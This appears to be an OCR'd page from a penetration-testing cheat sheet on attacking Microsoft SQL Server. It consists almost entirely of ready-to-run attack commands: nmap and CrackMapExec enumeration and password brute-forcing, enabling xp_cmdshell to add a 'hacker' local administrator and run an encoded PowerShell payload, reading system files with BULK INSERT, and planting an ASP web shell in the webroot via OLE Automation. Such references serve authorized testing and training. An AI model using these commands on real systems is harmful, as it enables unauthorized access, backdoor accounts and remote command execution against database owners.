 ## Attacking Databases

### MSSQL (Port 1433)

#### MSSQL Enumeration

```bash
# Basic port scan
nmap -sV -p 1433 --script=ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell target.com

# Brute force with CrackMapExec
crackmapexec mssql target.com -u users.txt -p passwords.txt

# Using Impacket for checks
impacket-mssqlclient domain/user:password@target.com -windows-auth
```

#### MSSQL Command Execution

```sql
-- Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

-- Enable xp_cmdshell if disabled
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Execute commands
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'net user hacker Password123! /add';
EXEC xp_cmdshell 'net localgroup administrators hacker /add';
EXEC xp_cmdshell 'powershell -enc base64encodedpayload';
```

#### MSSQL File Operations

```sql
-- Read files using bulk insert
CREATE TABLE file_data (line VARCHAR(8000));
BULK INSERT file_data FROM 'c:\windows\win.ini';
SELECT * FROM file_data;

-- Write files using OLE Automation
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;

DECLARE @OLE INT;
DECLARE @FileID INT;
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT;
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\shell.asp', 8, 1;
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<%Response.Write(CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.ReadAll())%>';
EXECUTE sp_OADestroy @FileID;
EXECUTE sp_OADestroy @OLE;
```
